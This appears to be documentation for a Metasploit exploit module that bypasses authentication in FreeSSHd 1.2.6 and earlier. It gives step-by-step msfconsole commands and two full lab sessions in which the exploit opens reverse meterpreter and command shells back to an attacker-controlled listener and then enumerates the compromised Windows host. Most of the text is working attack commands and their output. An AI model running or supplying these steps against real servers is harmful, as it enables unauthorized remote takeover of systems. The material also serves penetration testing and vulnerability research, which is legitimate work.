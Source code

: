## Description

This module exploits a vulnerability found in FreeSSHd <= 1.2.6 to bypass authentication. You just need the username (which defaults to root). The exploit has been tested with both password and public key authentication.


## Verification

  1. Start msfconsole
  2. Do : `use exploit/windows/ssh/freesshd_authbypass`
  3. Do : `set RHOST [target IP]`
  5. Do : `set PAYLOAD [valid windows payload]` if you want to use other payloads (`windows/meterpreter/reverse_tcp` by default)
  6. Do : `set LHOST [Your IP]`
  7. Do : `set LPORT [valid port]` (port is `4444` by default)
  7. Do : `exploit`
  8. If target is vulnerable, a shell (`meterpreter` by default) should pop

## Example with default payload (windows/meterpreter/reverse_tcp)
```
msf > use exploit/windows/ssh/freesshd_authbypass
msf exploit(windows/ssh/freesshd_authbypass) > set RHOST 192.168.80.131
RHOST => 192.168.80.131
msf exploit(windows/ssh/freesshd_authbypass) > set LHOST 192.168.80.138
LHOST => 192.168.80.138
msf exploit(windows/ssh/freesshd_authbypass) > exploit

[*] Started reverse TCP handler on 192.168.80.138:4444 
[*] 192.168.80.131:22 - Trying username '4Dgifts'
[*] 192.168.80.131:22 - Trying username 'EZsetup'
[*] 192.168.80.131:22 - Trying username 'OutOfBox'
[*] 192.168.80.131:22 - Trying username 'ROOT'
[*] Sending stage (179779 bytes) to 192.168.80.131
[*] Meterpreter session 2 opened (192.168.80.138:4444 -> 192.168.80.131:49166) at 2018-11-16 16:10:33 +0800

meterpreter > sysinfo
Computer        : SSH-TEST-SERVER
OS              : Windows 8.1 (Build 9600).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 

```

## Example with plain old reverse shell (windows/shell_reverse_tcp)
```
msf > use exploit/windows/ssh/freesshd_authbypass
msf exploit(windows/ssh/freesshd_authbypass) > set RHOST 192.168.80.131
RHOST => 192.168.80.131
msf exploit(windows/ssh/freesshd_authbypass) > set PAYLOAD windows/shell_reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
msf exploit(windows/ssh/freesshd_authbypass) > set LHOST 192.168.80.138
LHOST => 192.168.80.138
msf exploit(windows/ssh/freesshd_authbypass) > set LPORT 4444
LPORT => 4444
msf exploit(windows/ssh/freesshd_authbypass) > exploit

[*] Started reverse TCP handler on 192.168.80.138:4444 
[*] 192.168.80.131:22 - Trying username '4Dgifts'
[*] 192.168.80.131:22 - Trying username 'EZsetup'
[*] 192.168.80.131:22 - Trying username 'OutOfBox'
[*] 192.168.80.131:22 - Trying username 'ROOT'
[*] Command shell session 1 opened (192.168.80.138:4444 -> 192.168.80.131:49167) at 2018-11-16 16:12:19 +0800



C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::5d22:f345:9ea1:a320%3
   IPv4 Address. . . . . . . . . . . : 192.168.80.131
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Tunnel adapter isatap.localdomain:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : localdomain

C:\Windows\system32>hostname
hostname
SSH-TEST-SERVER

C:\Windows\system32>
```

